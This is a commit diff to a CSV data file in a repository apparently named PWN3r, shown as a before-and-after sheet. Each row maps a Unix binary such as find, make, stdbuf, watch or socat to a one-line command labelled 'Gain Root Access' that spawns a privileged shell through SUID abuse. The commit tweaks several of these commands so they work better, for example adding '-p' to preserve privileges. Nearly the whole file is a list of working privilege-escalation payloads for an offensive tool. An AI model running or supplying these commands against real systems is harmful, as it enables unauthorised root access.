

Before and after one commit to EGYCCAL/PWN3r, a CSV file: PWN3r/data/PWN3r.csv, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
19-4-2023

```diff
--- a/PWN3r/data/PWN3r.csv
+++ b/PWN3r/data/PWN3r.csv
@@ -30,8 +30,8 @@ id,name,cmd,type,,
 29,find ,find . -exec /bin/sh -p \; -quit,Gain Root Access,,
-30,make,COMMAND='/bin/sh -p';./make -s --eval=$'x:\n\t-''$COMMAND',Gain Root Access,,
+30,make,COMMAND='/bin/sh -p';make -s --eval=$'x:\n\t-''$COMMAND',Gain Root Access,,
 31,nice ,nice sh -p,Gain Root Access,,
 32,timeout,timeout 7d sh -p,Gain Root Access,,
-33,stdbuf,stdbuf -i0 /bin/sh,Gain Root Access,,
+33,stdbuf,stdbuf -i0 /bin/sh -p,Gain Root Access,,
 34,setarch,setarch $(arch) /bin/sh -p,Gain Root Access,,
-35,watch,watch -x cat '$FILE';watch -x sh -p -c 'reset; exec sh -p 1>&0 2>&0',Gain Root Access,,
+35,watch,watch -x sh -p -c 'reset; exec sh -p 1>&0 2>&0',Gain Root Access,,
 36,socat,socat stdin exec:'sh -p',Gain Root Access,,
```
